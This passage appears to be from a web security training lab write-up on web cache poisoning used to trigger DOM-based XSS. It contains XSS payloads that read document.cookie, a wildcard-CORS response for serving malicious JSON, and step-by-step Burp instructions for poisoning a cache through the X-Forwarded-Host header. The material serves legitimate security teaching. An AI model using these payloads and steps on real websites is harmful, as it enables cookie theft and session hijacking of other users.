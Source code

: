 ```<img src="https://your-exploit-server-id.web-security-academy.net/foo" />```

```{"someProperty" : "<svg onload=alert(1)>"}```

If the website then passes the value of this property into a sink that supports dynamic code execution, the payload would be executed in the context of the victim's browser session.

If you use web cache poisoning to make a website load malicious JSON data from your server, you may need to grant the website access to the JSON using CORS:

```
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: *

{
    "malicious json" : "malicious json"
}
```

### Web cache poisoning to exploit a DOM vulnerability via a cache with strict cacheability criteria

This lab contains a DOM-based vulnerability that can be exploited as part of a web cache poisoning attack. A user visits the home page roughly once a minute. Note that the cache used by this lab has stricter criteria for deciding which responses are cacheable, so you will need to study the cache behavior closely.

To solve the lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser.

**Solution**

1. With Burp running, open the website's home page.
2. In Burp, go to "Proxy" > "HTTP history" and study the requests and responses that you generated. Find the *GET* request for the home page and send it to Burp Repeater.
3. Use Param Miner to identify that the *X-Forwarded-Host* header is supported.
4. Add a cache buster to the request, as well as the *X-Forwarded-Host* header with an arbitrary hostname, such as *example.com*. Notice that this header overwrites the *data.host* variable, which is passed into the *initGeoLocate()* function.
5. Study the *initGeoLocate()* function in /resources/js/geolocate.js and notice that it is vulnerable to DOM-XSS due to the way it handles the incoming JSON data.
6. Go to the exploit server and change the file name to match the path used by the vulnerable response:

    ```/resources/json/geolocate.json```

7. In the head, add the header Access-Control-Allow-Origin: * to enable CORS
8. In the body, add a malicious JSON object that matches the one used by the vulnerable website. However, replace the value with a suitable XSS payload, for example:

    ```
    {
    "country": "<img src=1 onerror=alert(document.cookie) />"
    }
    ```

9. Store the exploit.
10. Back in Burp, find the request for the home page and send it to Burp Repeater.
11. In Burp Repeater, add the following header, remembering to enter your own exploit server ID:

    ```X-Forwarded-Host: your-exploit-server-id.web-security-academy.net```

12. Send the request until you see your exploit server URL reflected in the response and *X-Cache: hit* in the headers.
```